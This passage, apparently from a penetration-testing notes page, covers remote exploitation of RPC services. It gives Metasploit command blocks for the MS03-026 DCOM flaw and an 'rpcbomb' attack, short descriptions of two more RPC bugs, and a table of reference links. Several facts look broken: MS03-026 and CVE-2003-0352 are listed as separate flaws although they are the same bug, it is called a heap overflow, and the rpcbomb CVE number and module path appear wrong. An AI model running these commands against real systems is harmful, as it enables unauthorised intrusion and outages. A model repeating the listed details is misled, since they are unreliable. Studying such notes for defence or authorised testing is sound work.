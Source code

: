 #### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.

#### Rpcbomb (CVE-2003-0681)

*   **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]

    ```bash
    use exploit/unix/rpc/rpcbomb
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploit RPCBind to crash or execute arbitrary code on the target system.

#### Microsoft Windows RPC DCOM Vulnerability (CVE-2003-0352)

* **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]
* **Description:** A critical vulnerability in Microsoft Windows' RPC implementation, allowing remote code execution.

#### Linux rpc.ugidd Buffer Overflow

* **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]
* **Description:** A buffer overflow in the rpc.ugidd service that could allow arbitrary code execution.

## Resources

| **Website**               | **URL**                                                                      |
| ------------------------- | ---------------------------------------------------------------------------- |
| RFC 1833 (RPCBind)        | https://tools.ietf.org/html/rfc1833                                          |
| Nmap RPC Scan             | https://nmap.org/book/rpc-scanning.html                                      |
| Metasploit RPC Modules    | https://www.rapid7.com/db/modules/                                           |
| Wireshark RPC Analysis    | https://www.wireshark.org/docs/wsug\_html\_chunked/ChapterDissectingRPC.html |
| Linux man-pages (rpcbind) | https://man7.org/linux/man-pages/man8/rpcbind.8.html                         |
| Scapy Documentation       | https://scapy.readthedocs.io/en/latest/                                      |
| TCP/IP Illustrated        | https://www.amazon.com/TCP-Illustrated-Volume-Implementation/dp/0201633469   |
| Wireshark User Guide      | https://www.wireshark.org/docs/wsug\_html\_chunked/                          |
| NFS and RPC Security      | https://www.sans.org/reading-room/whitepapers/linux/nfs-rpc-security-34605   |
| Netcat Guide              | https://nmap.org/ncat/guide/index.html                                       |
